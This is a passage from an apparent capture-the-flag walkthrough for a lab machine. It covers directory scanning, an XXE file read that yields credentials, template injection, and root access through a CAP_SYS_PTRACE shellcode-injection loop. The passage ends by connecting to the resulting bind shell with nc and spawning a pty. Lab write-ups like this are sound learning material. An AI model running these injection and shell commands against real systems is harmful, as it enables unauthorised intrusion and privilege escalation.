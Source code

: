 [####################] - 28s   204750/204750  0s      found:6       errors:590    
[####################] - 14s    40950/40950   2913/s  http://blackhat.local
[####################] - 18s    40950/40950   2251/s  http://blackhat.local/cgi-bin/
[####################] - 16s    40950/40950   2454/s  http://blackhat.local/javascript
[####################] - 20s    40950/40950   1991/s  http://blackhat.local/templates
[####################] - 17s    40950/40950   2333/s  http://blackhat.local/javascript/jquery
{% endhighlight %}

And if we go to say http://blackhat.local/templates/index.html we see:

{% raw %}
Welcome, {{ current_user }}
{% endraw %}

So this gives us a clue about the template injection. How exactly we're supposed to know that it's on the *name* parameter on port 9999 I'm not entirely sure; I clearly missed the clue (if there was one). Anyway....what I will say is that you can read **/opt/server.py** with the XXE (base64 encoded) and get some credentials with which you can login at http://192.168.1.88:9999/, and if you do that you get this message:

>Tell me your name buddy  
How can i get to know who are you ??

Which is obviously a pretty good clue about the /name parameter and you can figure out the SSTI from there (I did). But how did you know to read /opt/server.py? Well that's mystery, maybe you were supposed to guess it.

## Root
Okay so go back to the shortcut and get yourself a shell. Root is via the exact method described in this [blog post](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc); you can figure out that **python2.7** has CAP_SYS_PTRACE from linpeas. The inject.py script from the page works fine, the only difference is that **nginx** is not running on our box. 

I tried a few different processes and none of them wanted to play the game so I said yolo and did this:

{% highlight shell %}
saket@ubuntu:~$ for i in {100..400}; do python2.7 inject.py $i; done
{% endhighlight %}

And guess what?

{% highlight shell %}
saket@ubuntu:~$ netstat -ntlp
netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5600            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:56353           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:38563           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      653/python3         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 192.168.1.88:53         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:953                 :::*                    LISTEN      -                   
tcp6       0      0 :::9999                 :::*                    LISTEN      653/python3         
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:53                  :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
saket@ubuntu:~$ nc 0.0.0.0 5600
nc 0.0.0.0 5600
python3 -c 'import pty;pty.spawn("/bin/bash");'